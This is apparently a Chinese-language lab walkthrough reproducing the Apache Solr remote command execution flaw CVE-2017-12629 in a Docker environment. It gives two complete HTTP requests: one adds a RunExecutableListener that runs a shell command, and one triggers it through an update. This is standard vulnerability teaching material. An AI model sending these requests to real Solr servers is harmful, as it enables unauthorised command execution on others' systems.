



Apache Solr 远程命令执行漏洞（CVE-2017-12629）¶
Apache Solr 是一个开源的搜索服务器。它使用 Java 语言开发，主要基于 HTTP 和 Apache Lucene 实现。在 7.1.0 版本之前，发现了两个漏洞：XML 外部实体注入（XXE）和远程命令执行（RCE），这两个漏洞的编号均为 CVE-2017-12629。这两个漏洞可以连接成利用链。
本环境演示远程命令执行漏洞。
参考链接：
环境搭建¶
执行如下命令启动 Apache Solr 7.0.1 服务器：
docker compose up -d
服务启动后，访问 http://your-ip:8983/ 即可看到 Apache Solr 的管理页面，无需登录。
漏洞复现¶
首先创建一个 listener，设置 exe 的值为我们想执行的命令，args 的值为命令参数：
POST /solr/demo/config HTTP/1.1
Host: your-ip
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Length: 158
{"add-listener":{"event":"postCommit","name":"newlistener","class":"solr.RunExecutableListener","exe":"sh","dir":"/bin/","args":["-c", "touch /tmp/success"]}}

然后进行 update 操作，触发刚才添加的 listener：
POST /solr/demo/update HTTP/1.1
Host: your-ip
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: application/json
Content-Length: 15
[{"id":"test"}]

执行 docker compose exec solr bash 进入容器，可以看到 /tmp/success 文件已成功创建：
